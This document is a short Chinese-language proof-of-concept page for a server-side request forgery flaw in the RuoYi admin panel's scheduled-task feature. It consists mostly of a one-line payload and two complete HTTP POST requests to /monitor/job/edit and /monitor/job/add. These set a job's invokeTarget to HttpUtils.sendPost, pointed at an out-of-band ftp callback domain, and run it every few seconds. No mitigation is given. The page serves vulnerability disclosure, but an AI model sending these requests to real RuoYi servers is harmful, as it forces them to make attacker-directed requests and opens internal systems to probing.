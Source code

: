 ## 若依后台定时任务存在SSRF漏洞


## poc
```
com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp://6a928e83f9.ipv6.1433.eu.org','')
```

![6bd379ec73798d26af505482a1863868](../../images/86812c61-c4ba-42da-9b39-564b19756bef.png)

![a2f9e3adc46a688643f3688d1464005c](../../images/ea2b8763-2303-4f6b-aa55-7b86a5a2f071.png)

## 数据包
```
POST /monitor/job/edit HTTP/1.1
Host: xxx
Connection: keep-alive
Content-Length: 242
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4

jobId=102&updateBy=admin&jobName=test&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=1&remark=
```

```
POST /monitor/job/add HTTP/1.1
Host: xxxx
Connection: keep-alive
Content-Length: 232
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4

createBy=admin&jobName=test1&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F1+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```

## 漏洞来源
- https://mp.weixin.qq.com/s/ttn46zznE4-op2GydL1i1A
